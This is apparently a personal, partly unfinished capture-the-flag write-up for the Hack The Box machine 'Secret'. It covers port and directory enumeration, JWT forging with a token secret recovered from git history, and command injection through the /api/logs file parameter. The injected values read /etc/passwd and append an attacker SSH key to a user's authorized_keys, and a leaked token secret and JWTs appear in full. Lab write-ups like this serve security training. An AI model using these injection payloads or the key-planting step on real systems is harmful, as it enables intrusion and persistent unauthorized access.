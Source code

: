Box Info secret.htb
OS: Linux \
IP: 10.10.11.120  \

Part I Skills learned::  
AppSec, JS \ 

---
**Enumeration::**

nmap -p- -A -oN secretports.txt ${IP} ::
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)             
|_http-title: DUMB Docs                                 
3000/tcp open  http    Node.js (Express middleware)     
|_http-title: DUMB Docs                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

gobuster dir -u http://<ip> -w /usr/share/wordlists/directory-list-1.0.txt ::
+ /docs, /api, /Docs, /API, /DOCS

ffuf -u http://secret.htb:FUZZ -w /usr/share/wordlists/subdomains-top1million-110000.txt:FUZZ | grep "Status: 200"
+ 80, #www, #mail, 080, 3000, #smtp #pop3

nikto -h http://secret.htb ::
+ Server: nginx/1.18.0 (Ubuntu)

http://secret.htb -> DL Source Code ::
+ Private.js UN:theadmin
+ Auth.js "l:30 const password:hashPaswrod -> l:23 const hashPaswrod = await bcrypt.hash(req.body.password, salt)"
+ popperjs/core v2.9.2
+ Bootstrap v5.0.2
+ http://secret.htb/docs#section-3 shows theadmin:root@dasith.works:Kekc8swFgD6zU (not SSH creds)
---
###**Step 1:**###
  + Create user::
```
# curl -i -X POST \                                                      
> -H 'Content-Type: application/json' \
> -d '{"name":"drtuser","email":"drt@dasith.works","password":"password123" \
> http:![](Screenshots/strapi_exploit_broken_shell.png)//10.10.11.120/api/user/login
```
# See ![create_user](Screenshots/secret_create_user.png) \

  + Login w/ user creds::
```
# curl -i -x POST \
> -H 'Content-Type: application/json' \
> -d '{"email":"drt@dasith.works","password":"password123" \
> http://10.10.11.120/api/user/login
```
# See ![login_user](Screenshots/login_secret.png) \

 `auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWNmNzY0NzlhN2U2NDA0NjAzOTNjNjgiLCJuYW1lIjoiZHJ0dXNlciIsImVtYWlsIjoiZHJ0QGRhc2l0aC53b3JrcyIsImlhdCI6MTY0MDk4NjYxM30.UxFx2kUzbFY_Ymt_LWQGq9FzeSEJktenzCT4vBZ_WBA`

###** JWT validation::**###
 + using none algorithm [jwt.IO](JWT.io) 
   + change alg: to None, NONE, n0ne, nOne :: Nope
 + hijacking another user
   + No users we know run this :: Nope
 + brute forcing the key [jwt_bruteforcer] (https://lmammino.github.io/jwt-cracker/) #npm install --global jwt-cracker
   + jwt-cracker "<jwt-token>"  "abcdefghijklmnopqrstuwxyz" 6 :: Nope Token too complex.
 + log into /api/prv fails ::`curl -w '\n' -H "auth-token: <jwt-token>" http://<ip>/api/priv` ::
     {"role":{"role":"you are normal user","desc":"drtuser"}} # See ![failed_priv](Screenshots/failed_jwt_api_priv_secret.png)

##**Step 2:**## 
 +.git folder has git log # See ![git_log_changes](Screenshots/git_log_changes.png)
    + "removed .env for security reasons"
    + open .env file in vim :: to view changes
    + `:r! git diff HEAD~2` ::
see Before ![before](Screenshots/before_git_diff.png) && \
see After ![after](Screenshots/after_git_diff.png) \
```
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
``` 
   + Create new token && sign into /api/priv See ![newJWT_login](Screenshots/newjwt_login.png)
   + cmd injection with jwt authenticated token. See ![cmd_jwt](Screenshots/cmd_injection_w_jwt.png)
```
# curl -i \                                                                                                                                          3 ⨯
> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
##File must be URL encoded for it to work with curl.
```

User is not a service therefore, a reverse shell is possible. 
    + First try to ssh 
    + Must attach SSH-public key to secret.htb server. Must be added to user's home dir to "authorized_machines"
`ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P '' #4096 bits, -C comment, -f name of ssh-key and -P is null`
    + in order to make sure SSH-key sticks:
```
    mkdir -p /home/dasith/.ssh
    echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys 
```
create bash variable::
`export PUBLIC_KEY=$(cat secret.htb.pub)`

curl command

```
curl \
  -i \ # print headers
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \ 
  -G \ # send data values through GET instead of POST
  --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" \ # encode data parameters
  'http://10.10.11.120/api/logs'

```

key should be present now ssh into dasith!

TODO:: curl cmd and ssh into server


---
##**References:**###
[jwt.IO](JWT.io) 
[guide](https://drt.sh/posts/htb-secret/)

